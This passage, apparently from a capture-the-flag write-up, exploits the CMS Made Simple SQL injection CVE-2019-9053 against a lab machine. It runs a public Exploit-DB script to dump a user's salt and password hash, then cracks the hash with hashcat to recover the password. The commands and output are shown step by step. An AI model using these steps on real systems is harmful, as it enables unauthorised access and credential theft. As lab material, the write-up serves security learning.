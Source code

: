 ## "CMS Made Simple" SQL Injection

The home page indicates that the "CMS Made Simple" version is 2.2.8.

"CMS Made Simple" has a significant SQL injection vulnerability in versions less than 2.2.10: [CVE-2019-9053](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2019-9053). A corresponding Python exploit can be found [here](https://www.exploit-db.com/exploits/46635). Use the exploit to dump the user account hashes. This results in a salt and password hash for `mitch`.

```bash
$ virtualenv -p python2.7 46635
$ source 46635/bin/activate
$ (46635) pip install termcolor
$ (46635) pip install requests
$ (46635) python 46635.py -u http://10.10.162.248/simple
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```

According to the exploit, the MD5 hash is produced from the concatenation of the salt and the password, in that order.

```python
...[SNIP]...
if hashlib.md5(str(salt) + line).hexdigest() == password:
	output += "\n[+] Password cracked: " + line
	break
...[SNIP]...
```

This corresponds to the `hashcat` mode 20.

```bash
$ hashcat --example-hashes | grep -i MD5 -B 1 -A 1
...[SNIP]...
--
MODE: 20
TYPE: md5($salt.$pass)
HASH: 57ab8499d08c59a7211c77f557bf9425:4247
--
...[SNIP]...
```

After cracking the hash, the resultant password is `secret`.

```bash
$ hashcat -a 0 -m 20 '0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2' rockyou.txt
0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2:secret
```

